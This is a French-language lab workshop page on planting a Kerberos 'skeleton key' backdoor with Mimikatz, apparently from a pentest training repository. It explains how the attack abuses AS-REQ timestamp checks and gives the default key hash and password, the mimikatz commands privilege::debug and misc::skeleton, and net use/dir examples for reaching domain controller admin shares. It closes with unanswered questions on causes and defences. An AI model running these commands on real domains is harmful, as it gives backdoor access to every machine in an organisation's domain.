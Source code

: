 # Creation de Backdoor Kerberos avec Mimikatz

En plus de maintenir l'accès à l'aide de "billets d'or et d'argent" :crown:, mimikatz a un autre atout dans ses manches lorsqu'il s'agit d'attaquer Kerberos.  

Contrairement aux attaques par ticket classiques, un backdoor Kerberos est beaucoup plus subtile car il agit de la même manière qu'un rootkit en s'implantant dans la mémoire de la forêt de domaines, ce qui lui permet d'accéder à n'importe laquelle des machines avec un mot de passe principal.

La porte dérobée Kerberos fonctionne en implantant une clé squelette (_skeleton key_) qui abuse de la façon dont l'AS-REQ valide les horodatages chiffrés. Une clé squelette ne fonctionne qu'avec le cryptage Kerberos RC4.

Le hachage par défaut pour une clé squelette mimikatz est 60BA4FCADC466C7A033C178194C03DF6, ce qui rend le mot de passe -"mimikatz"

Ce workshop ne sera qu'une section de présentation et ne vous obligera pas à faire quoi que ce soit sur la machine, mais je vous encourage à continuer par vous-même ultérieurement et à ajouter d'autres machines et à tester en utilisant des clés squelettes avec mimikatz.

**Fonctionnement de la clé squelette** -

La clé squelette fonctionne en abusant des horodatages chiffrés AS-REQ.  
comme expliqué ci-dessus, l'horodatage est chiffré avec le hachage NT des utilisateurs.  
Le contrôleur de domaine essaie ensuite de déchiffrer cet horodatage avec le hachage NT des utilisateurs, une fois qu'une clé squelette est implantée, le contrôleur de domaine essaie de déchiffrer l'horodatage en utilisant à la fois le hachage NT de l'utilisateur et le hachage NT de la clé squelette vous permettant d'accéder à la forêt du domaine.



**Préparation de Mimikatz** -

1.) ```cd Downloads && mimikatz.exe``` - Accédez au répertoire dans lequel se trouve mimikatz et exécutez mimikatz

2.) ```privilege::debug``` - Cela devrait être une norme pour l'exécution de mimikatz car mimikatz a besoin d'un accès administrateur local



**Installation de la clé squelette avec mimikatz **

1.) ```misc::skeleton``` - Oui ! c'est tout, mais ne sous-estimez pas cette petite commande elle est très puissante ☠️



**Accéder à la forêt** 

Les identifiants par défaut seront : "mimikatz"

exemple : ```net use c:\\DOMAIN-CONTROLLER\admin$ /user:Administrator mimikatz``` - Le partage sera désormais accessible sans avoir besoin du mot de passe Administrateurs

exemple : ```dir \\Desktop-1\c$ /user:Machine1 mimikatz``` - accéder au répertoire de Desktop-1 sans jamais savoir quels utilisateurs ont accès à Desktop-1

La clé squelette ne persistera pas par elle-même car elle s'exécute dans la mémoire, elle peut être scriptée ou persistée à l'aide d'autres outils et techniques, mais cela est hors de portée pour cette pièce.

**Répondez aux questions** 

Qu'est ce qui rend une telle attaque possible ?
```
reponse
```

Comment pourrait-on s'en protéger et l'empêcher ?
```
reponse
```
